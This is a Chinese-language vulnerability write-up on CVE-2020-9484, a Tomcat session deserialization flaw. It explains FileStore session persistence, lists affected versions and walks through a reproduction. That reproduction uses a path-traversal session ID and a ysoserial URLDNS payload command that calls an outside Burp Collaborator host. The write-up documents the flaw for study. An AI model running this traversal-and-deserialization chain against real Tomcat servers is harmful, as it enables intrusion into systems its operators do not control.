 （CVE-2020-9484）Tomcat session反序列化漏洞
===========================================

一、漏洞简介
------------

对
于一个企业级应用而言，Session对象的管理十分重要。Sessio对象的信息一般情况下置于服务器的内存中，当服务器由于故障重启，或应用重新加载
时候，此时的Session信息将全部丢失。为了避免这样的情况，在某些场合可以将服务器的Session数据存放在文件系统或数据库中，这样的操作称为
Session对象的持久化。Session对象在持久化时，存放在其中的对象以序列化的形式存放，这就是为什么一般存放在Session中的数据需要实
现可序列化接口（java.io.Serializable）的原因了。当一个Session开始时，Servlet容器会为Session创建一个HttpSession对象。Servlet容器在某些情况下把这些
HttpSession对象从内存中转移到文件系统或数据库中，在需要访问
HttpSession信息时再把它们加载到内存中。

### 实现

要完成session持久化，存放在session里的对象必须要实现`java.io.Serializable`
接口。Session的持久化是由`Session Manager`来管理的。Tomcat提供了两个实现类：

-   **org.apache.catalina.session.StandardManager** (默认)
-   **org.apache.catalina.session.PersistentManager**

### 配置

存储在本地文件中需要配置conf目录里的**context.xml**文件在`节点下添加如下`节点：

    <Manager className="org.apache.catalina.session.PersistentManager" 
        debug="0"
        saveOnRestart="false"
        maxActiveSession="-1"
        minIdleSwap="-1"
        maxIdleSwap="-1"
        maxIdleBackup="-1">
        <Store className="org.apache.catalina.session.FileStore" directory="../session" />
    </Manager>

二、漏洞影响
------------

Tomca \<= 9.0.34Tomca \<= 8.5.54Tomca \<= 7.0.103

三、复现过程
------------

### 漏洞分析

一般文件存储session的问题就是sessionID没有做过滤，允许跳出路径，让session文件变成攻击者控制的文件，导致漏洞产生，这次的session漏洞也不例外

我们选择了session的存储为FileStore，所以在FileStore类的load方法处设置断点

在servlet中创建一个很简单的java session

    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            Properties properties = new Properties();
            properties.setProperty("org.apache.catalina.session.StandardSession.ACTIVITY_CHECK", "true");
            System.setProperties(properties);
            String res = System.getProperty("org.apache.catalina.session.StandardSession.ACTIVITY_CHECK");
            System.out.println(res);
            HttpSession httpSession = req.getSession();
            httpSession.setAttribute("username", "admin");
            resp.getWriter().println("success");
        }

现在我们的漏洞环境就搭建好了，设置tomcat启动即可

### 设置sessionid

我们设置sessionid存在目录穿越符号

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId28.png)

刷新页面，被断点拦截

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId29.png)

第一步先是获取到session文件

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId30.png)

可以看到，我们的sessionID后面会添加一个.session后缀，这也就导致我们需要一个可控文件名的文件上传，这一点就比较难以满足

但是可以看出来，不需要准确知道确定的相对录路径，一直跳到根目录即可，但是因为sessionid有长度限制的，所以还是有一点限制

### 反序列化

这个时候，我们可以跳到任意目录了，我们在tmp下面生成了URLDNS的ysoserial，来做dns查询

    java -jar ysoserial.jar URLDNS "http://lsh9lo0bpipjrb0kp98cn4khb8h15q.burpcollaborator.net" > /tmp/test.session

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId32.png)

只要这个session文件存在，就会将文件内容读取出来，并且创建ObjectInputStream，最后调用了readObjectData

熟悉java反序列化的话这个地方一眼就能看出来有反序列化的问题

我们继续进入readObjectData

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId33.png)

调用readObject，触发反序列化

### 利用截图

使用URLDNS，成功获取到DNS请求

![6.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId35.png)

漏洞利用条件较为苛刻

参考链接
--------

> https://xz.aliyun.com/t/7803\#toc-1
